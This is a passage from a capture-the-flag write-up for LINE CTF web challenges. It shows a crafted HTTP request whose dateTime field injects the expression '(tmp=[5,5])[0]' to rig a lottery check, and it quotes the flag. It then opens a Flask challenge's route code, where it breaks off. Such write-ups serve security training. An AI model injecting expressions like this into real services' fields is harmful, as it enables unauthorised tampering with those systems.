 ```
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"userName":"adragos","userNumbers":[5,5,
5],"dateTime":"(tmp=[5,5])[0]"}
```

Which will pass the gotChaHack (after some tries, 1/5 chance) and get the flag image:
```kotlin
val gotChaHack : List<Long> = listOf(5,5,5)
                val gotChaPark : List<Long> = listOf(6,6,6)
                val gotChaKing : List<Long> = listOf(7,7,7)
                val gotChaTazza : List<Long> = listOf(8,8,8)
                val gotChaMaster : List<Long> = listOf(9,9,9)

                if( result.userNumbers == gotChaBaby){
                    resultMessage = "Gotcha baby!"
                    image = loadImage("flag.jpg")
                }else if( result.userNumbers == gotChaHack){
                    image = loadImage("flag.jpg")
                    resultMessage = "Gotcha hack"
```

**LINECTF{1c817e624ca6e4875e1a876aaf3466fc}**

<a name="this-message-will-self-destruct-in---"></a>
## This message will self-destruct in... (145 pts, 43 solves) - Web

Description:
```
This service can generate message link that will self-destruct. BTW, Which SPY movie do you like? 😎

http://35.200.21.52/
```

Web application written in Python + Flask. The service allows us to create a message that contains an image and a password. The message will be deleted after it is read. We can notice the first suspicious part of the code:
```python
@app.post('/')
def add_image():
    form = AddImageForm()

    print(form)

    if form.validate_on_submit():
        file = form.image.data
        password = form.password.data
        id_ = form.id.data or uuid4().hex
        image_url = form.image_url.data

        url = __add_image(password, id_, file=file, image_url=image_url)

        return render_template('image_added.html', url=url, form=form)
    else:
        logger.info(f'validation error: {form.errors}')
        return render_template('index.html', form=form)
```
